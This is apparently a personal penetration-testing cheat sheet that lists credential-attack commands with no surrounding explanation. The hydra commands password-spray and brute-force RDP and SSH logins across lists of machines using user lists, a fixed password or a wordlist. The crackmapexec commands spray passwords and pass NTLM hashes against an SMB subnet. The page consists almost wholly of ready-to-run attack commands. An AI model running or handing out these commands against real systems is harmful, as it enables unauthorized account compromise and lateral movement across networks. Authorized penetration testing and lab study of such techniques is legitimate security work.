 public:: true

- RDP
  ```bash
  hydra -L users.txt -p 'passw0rd' -M machines-rdp.txt -t 4 rdp -V
  ```
  ```bash
  hydra -L users.txt -P wordlist.txt -M machines-with-rdp.txt -t 4 rdp -V
  ```
- SSH
  ```bash
  hydra -L users.txt -p 'passw0rd' -M machines-rdp.txt -t 4 ssh -V
  ```
  ```bash
  hydra -L users.txt -P wordlist.txt -M machines-rdp.txt -t 4 ssh -V
  ```
- SMB
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -p 'passw0rd'
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -p wordlist.txt
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -H '82a73cad8b8ff3ad60fad51502d0cfa5'
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -H hashes.txt
  ```